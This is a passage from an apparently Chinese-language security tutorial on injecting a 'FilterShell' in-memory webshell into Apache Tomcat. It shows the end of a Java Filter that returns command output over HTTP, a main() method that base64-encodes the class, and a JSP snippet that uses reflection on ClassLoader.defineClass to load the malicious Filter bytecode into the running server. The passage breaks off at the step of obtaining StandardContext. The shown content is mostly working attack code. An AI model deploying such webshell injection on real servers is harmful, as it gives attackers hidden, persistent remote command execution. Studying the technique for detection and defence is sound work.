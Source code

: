 ```
            resp.getWriter().write(output);
            resp.getWriter().flush();
        }
        filterChain.doFilter(request, response);
    }

public void destroy() {
    }

public static void main(String[] args) throws IOException {
        InputStream in = FilterShell.class.getClassLoader().getResourceAsStream("FilterShell.class");
        byte[] bytes = new byte[in.available()];
in.read(bytes);
        System.out.println(java.util.Base64.getEncoder().encodeToString(bytes));
    }
}
```

2. 注入恶意 Filter 类

  获取 ClassLoader 实例，并通过反射得到 ClassLoader 类的 defineClass() 方法，将传入的恶意 Filter 类字节码，转化为 Class 注入至目标环境

![](https://mmbiz.qpic.cn/mmbiz_png/1oVoayJic3GzBcz4Q1EHyicB3mWv2HibyF10XGkszsapKoWqhGR0WfZUywgtszv5QywwW7HNaHn4LPz2wicufJVicmQ/640?wx_fmt=png)

图 17  java.lang.ClassLoader#defineClass()

```
<%
//  获取当前ClassLoader
java.lang.ClassLoader classLoader = (java.lang.ClassLoader) Thread.currentThread().getContextClassLoader();

// 由于defineClass方法的权限修饰符并非public，需通过反射得到
java.lang.reflect.Method defineClass = java.lang.ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
defineClass.setAccessible(true);
String evil_base64 = “恶意Filter类的base64编码”;
byte[] evil_bytes = java.util.Base64.getDecoder().decode(evil_base64);

// 加载字节码，注入恶意Filter类
defineClass.invoke(classLoader, evil_bytes, 0, evil_bytes.length);
```

3. 获取 StandardContext 实例

> 借鉴于 Litch1 前辈《Tomcat 的一种通用回显方法研究》
> 
> https://zhuanlan.zhihu.com/p/114625962

![](https://mmbiz.qpic.cn/mmbiz_png/1oVoayJic3GzBcz4Q1EHyicB3mWv2HibyF1iaTES9laI4aYXBW2Rh3vZgG8vKyN4mF7xggrDRuw1icvPrpKFcR6O6ew/640?wx_fmt=png)

图 18  StandardContext 实例存储位置信息
